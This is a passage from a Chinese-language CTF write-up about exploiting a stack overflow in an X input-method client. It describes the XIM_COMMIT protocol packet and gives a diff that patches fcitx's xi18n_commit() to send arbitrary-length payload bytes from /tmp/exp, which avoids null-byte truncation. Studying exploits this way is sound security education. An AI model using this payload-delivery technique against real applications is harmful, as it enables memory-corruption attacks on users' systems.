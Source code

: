 只需要安装 fcitx，通过命令 `XMODIFIERS=@im=114514 fcitx` 启动就行了，之后程序 XOpenIM 就不会失败了，这里再给 fcitx 装上一个 addon 例如 fcitx-sunpinyin 就可以往题目里面塞很多东西。

接下来的问题是 fcitx-sunpinyin 这种输入方式，只能输入可见字符，而这样对于栈溢出来说应该是不足以完成利用的。最开始还准备从 fcitx-sunpinyin 这种 addon 来入手魔改，看了一下源码后发现其只能控制发送的字符串的指针，并不能控制长度，所以还是存在 \0 截断的问题，所以还是需要从 fcitx 本身入手来进行魔改。回顾图中 IM_server 和 IM library 通信的过程，字符串是通过 XIM_COMMIT 这个包来传递的。

```
XIM_COMMIT (IM Server -> IM library)

     2     CARD16          input-method-ID
     2     CARD16          input-context-ID
     2     BITMASK16       flag
           #0001           synchronous
           #0002           XLookupChars
           #0004           XLookupKeySym
           #0006           XLookupBoth = XLookupChars | XLookupKeySym
     2     m              byte length of committed string
     m     LISTofBYTE     committed string
     p                    unused, p = Pad(m)
```

其中既可以控制字符串的数据，也可以控制字符串的长度，在发送这个包的地方魔改，就能解决了 \0 截断的问题。看一看源码可以发现最后处理 XIM_COMMIT 是在 xi18n_commit() 函数中，然后很简单地对发送的数据完成一个替换。

```diff
diff --git a/src/frontend/xim/lib/i18nMethod.c b/src/frontend/xim/lib/i18nMethod.c
index d50f035e..a0e28370 100644
--- a/src/frontend/xim/lib/i18nMethod.c
+++ b/src/frontend/xim/lib/i18nMethod.c
@@ -812,6 +812,19 @@ static Status xi18n_commit(XIMS ims, XPointer xp)
     CARD16 str_length;

     call_data->flag |= XimSYNCHRONUS;  /* always sync */
+    char *buf = malloc(0x500);
+    int fd = open("/tmp/exp", O_RDONLY);
+    if (fd < 0){
+        printf("[-] open failed.\n");
+        exit(-1);
+    }
+    int buf_len = read(fd, buf, 0x500);
+    if (buf_len < 0){
+        printf("[-] read failed.\n");
+        exit(-1);
+    }
+    printf("[+] read done %d\n", buf_len);
+

     if (!(call_data->flag & XimLookupKeySym)
             &&
@@ -821,7 +834,9 @@ static Status xi18n_commit(XIMS ims, XPointer xp)
                           _Xi18nNeedSwap(i18n_core, call_data->connect_id));

         /* set length of STRING8 */
-        str_length = strlen(call_data->commit_string);
+        call_data->commit_string = buf;
+        str_length = buf_len;
+        // str_length = strlen(call_data->commit_string);
         FrameMgrSetSize(fm, str_length);
         total_size = FrameMgrGetTotalSize(fm);
         reply = (unsigned char *) malloc(total_size);

```
